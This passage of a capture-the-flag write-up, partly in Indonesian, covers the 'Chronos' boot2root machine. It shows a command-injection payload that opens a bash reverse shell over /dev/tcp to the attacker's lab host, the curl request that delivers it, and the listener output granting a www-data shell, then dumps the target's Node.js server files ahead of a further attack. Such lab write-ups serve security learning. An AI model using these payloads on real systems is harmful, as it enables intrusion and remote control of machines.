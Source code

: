 ```bash
;bash -c 'bash -i >& /dev/tcp/192.168.56.1/4242 0>&1'
->25v919hbfMQqCv6QfhvvBc5iYdGcDgqbbt85MB6wUQfjQoec4PBgYon4cd1pjpVKqj1Ms4kqc
---
arin@aoba ~/Desktop/boot2roots/hmv/chronos $ curl http://chronos.local:8000/date\?format\=25v919hbfMQqCv6QfhvvBc5iYdGcDgqbbt85MB6wUQfjQoec4PBgYon4cd1pjpVKqj1Ms4kqc -H "User-Agent: Chronos"
---
arin@aoba ~ $ ncat -nvlp 4242
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 192.168.56.108.
Ncat: Connection from 192.168.56.108:55884.
bash: cannot set terminal process group (771): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chronos:/opt/chronos$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@chronos:/opt/chronos$ 

```

## Shell as imera
pergi kemana-mana, akhirnya nemu asik-asik.
```json
www-data@chronos:/opt/chronos-v2/backend$ cat package.json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```
```json
www-data@chronos:/opt/chronos-v2/backend$ cat server.js
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
```